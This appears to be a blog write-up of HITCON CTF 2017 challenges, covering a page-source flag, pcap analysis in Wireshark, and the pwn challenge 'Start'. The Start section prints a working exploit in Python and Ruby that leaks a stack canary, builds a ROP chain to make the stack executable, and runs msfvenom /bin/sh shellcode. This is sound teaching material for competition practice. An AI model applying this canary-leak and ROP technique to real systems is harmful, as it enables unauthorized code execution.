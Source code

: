 ```yaml
---
layout: post
title: HITCON CTF 2017
tags: [ctfwriteups]
---
```


We solved 4 challenges in this CTF.
- misc
  - [Visual Acuity](#visual-acuity)
  - [Data & Mining](#data-and-mining)
- web
  - [BabyFirst Revenge](#babyfirst-revenge)
- pwn
  - [Start](#start)

## Visual Acuity 

> Welcome to HITCON CTF 2017  
> Your flag is here:

Below the challenge prompt was a `<div>` with a very large letter `h` and presumably some other text. Inspecting the page source leads you to the flag.

![Flag for Visual Acuity](/assets/hitcon2017/visualacuity.png)

The flag is `hitcon{enjoy_our_adaptive_scoring_system}`.

## Data and Mining

> My NAS is always busy...  
> [traffic-1b2b39e2c2231e6b98c77700da047b78.pcapng](https://xmunoz.com/ctfs/hitcon2017/traffic-1b2b39e2c2231e6b98c77700da047b78.pcapng)

The provided file is a 230 MB pcap. Let's download the pcap and open it in wireshark. 

![Wireshark pcap](/assets/hitcon2017/wireshark.png)

The first thing to notice is that much of the traffic seems to be in a protocol called "IPA". A quick google search reveals that "IPA" stands for "GSM over IP". I don't know anything about GSM over IP, but a closer inspection of the packet data reveals that this classification might be incorrect.

![ipa packet](/assets/hitcon2017/ipa.png)

That looks like good ol' HTTP to me. Wireshark has misclassified the protocol for these packets. Disable the IPA protocol by natigating to Analyze > Enabled Protcol.

![disable ipa](/assets/hitcon2017/ipadisable.png)

This didn't appear to have the desired effect for me. To really turn off IPA, go to Edit > Preferences and in the Protocols section, set the GSM IPA TCP port to 0.

![disable ipa again](/assets/hitcon2017/ipadisable2.png)

This causes wireshark to rescan the whole packet capture, which can take a while depending on your hardware. Now the packet capture should look something like this.

![new packet capture](/assets/hitcon2017/newcapture.png)

It's now possible to follow the TCP streams and look for interesting data. To look at a particular stream, right click any packet > Follow... > TCP Stream.

![follow tcp stream](/assets/hitcon2017/followstream.png)

The flag is found in stream 42, which can be filtered for with the expression `tcp.stream eq 42`. The flag is `hitcon{BTC_is_so_expensive_$$$$$$$}`.

## BabyFirst Revenge

> Do you remember BabyFirst from HITCON CTF 2015?  
> This is the harder version!  
> http://52.199.204.34/

## Start

> Have you tried pwntools-ruby?  
> nc 54.65.72.116 31337  
> [start-7a3715a6bd61783850f9c109dbc57571.zip](/assets/hitcon2017/start-7a3715a6bd61783850f9c109dbc57571.zip)

Once connected, the server serving the `server.rb` script makes it clear that the start binary is hosted locally and that a ruby script must provided for it to run.

![server.rb](/assets/hitcon2017/serverrb.png)

Quickly looking over the `server.rb` script it seems to import the [ruby port](https://github.com/peter50216/pwntools-ruby) of the [pwntools library](https://github.com/Gallopsled/pwntools) - knowing this, let's start reversing and creating an exploit for the `start` binary using pwntools, to hopefully later on send the script to the server.

A stack canary is put on the stack preventing us from conventional buffer overflows or similar things that tamper with the stack. 

![stack canary](/assets/hitcon2017/canary.png)

Luckily there is a way to leak the canary abusing the `puts()` call. Reading in 24 characters and a newline char `\n`, `puts()` will print the canary except the last char which is overwritten by the `\n`. Luckily, the last char of the canary is a null-byte in this case so it won't matter.


Once the canary is obtained, it is a simple matter of creating the exploit.There are likely multiple paths to success once we control the return address. I chose to go with `mprotect()` which is a syscall allowing us to overwrite permissions on the stack, making it executable. This is necessary, since the binary is protected by [DEP/NX](https://msdn.microsoft.com/en-us/library/windows/desktop/ff966508(v=vs.85).aspx) which marks the stack, and potentially other memory regions, as non-executable.

The function `_dl_make_stack_executable` is already present in our static binary. It is essentially a wrapper around the `mprotect()` syscall. Using this function the stack is made executable, a payload is generated with `msfvenom` and the exploit is mounted.

Here is the initial script I wrote in python (to be ported to ruby).

```
#!/usr/bin/python2.7

import sys
from pwn import *

# Payload
payload = "A"*24 + "\n"

r = process('./start')

r.send(payload)

r.recvline() #echo

canary = struct.unpack("<Q", "\x00" + r.recv()[0:7])[0]
print "Leaked canary: " + hex(canary)

payload2 = "exit\n" + "A"*19 + struct.pack("<Q", canary) + "A"*8

payload2 += p64(0x466c09) # 0x0000000000466c09: pop rsi; ret;
payload2 += p64(0x6cbfe0) # 00000000006cbfe0 <__stack_prot>
payload2 += p64(0x4005d5) # 0x00000000004005d5: pop rdi; ret; 
payload2 += p64(0x7) # RWX Flag
payload2 += p64(0x41881b) # 0x000000000041881b: mov qword ptr [rsi], rdi; ret;

payload2 += p64(0x4005d5) # 0x00000000004005d5: pop rdi; ret
payload2 += p64(0x6cbf90) # 00000000006cbf90 <__libc_stack_end>:
payload2 += p64(0x4768a0) # 00000000004768a0 <_dl_make_stack_executable>:

# JMP RSP
payload2 += p64(0x4a554f) # 0x00000000004a554f: jmp rsp; 

# msfvenom -f python -p linux/x64/exec CMD=/bin/sh --platform linux
buf =  ""
buf += "\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68"
buf += "\x00\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6"
buf += "\x52\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68"
buf += "\x00\x56\x57\x48\x89\xe6\x0f\x05"

payload2 += "\x90"*20 + buf

r.send(payload2 + "\n")

r.interactive()
r.clean()
r.close()
```

Once run a shell is obtained.

![local shell](/assets/hitcon2017/local-shell.png)

Porting to ruby was somewhat challenging, as I have little to no experience in ruby (although not much has to be changed). As far as I know, it is also not possible to make use of the interactive pipe in this case. Therefore, I chose to run single commands on the system eventually using `cat` to read the flag. I chose to re-write the script as a ruby one-liner although there are other ways to send it, through python sockets for example. This is the final ruby script sent to the server.

```
payload = "A"*24 + "\n" ;r = Sock.new '127.0.0.1', 31338 ;r.send(payload) ;r.recvline() ;canary = unpack("\x00" + r.recv()[0, 7], bits: 64, endian: 'little', signed: false) ;puts "Leaked canary: " + "0x" + canary.to_s(16) ;payload2 = "exit\n" + "A"*19 + p64(canary) + "A"*8 ;payload2 += p64(0x466c09) ;payload2 += p64(0x6cbfe0) ;payload2 += p64(0x4005d5) ;payload2 += p64(0x7) ;payload2 += p64(0x41881b) ;payload2 += p64(0x4005d5) ;payload2 += p64(0x6cbf90) ;payload2 += p64(0x4768a0) ;payload2 += p64(0x4a554f) ;buf = "\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x56\x57\x48\x89\xe6\x0f\x05"; payload2 += "\x90"*20 + buf; r.send(payload2 + "\n"); r.sendline('/bin/cat /home/start/flag'); puts r.recv()
```

And flag received!

![flag](/assets/hitcon2017/flag.png)

The flag is `hitcon{thanks_for_using_pwntools-ruby:D}`





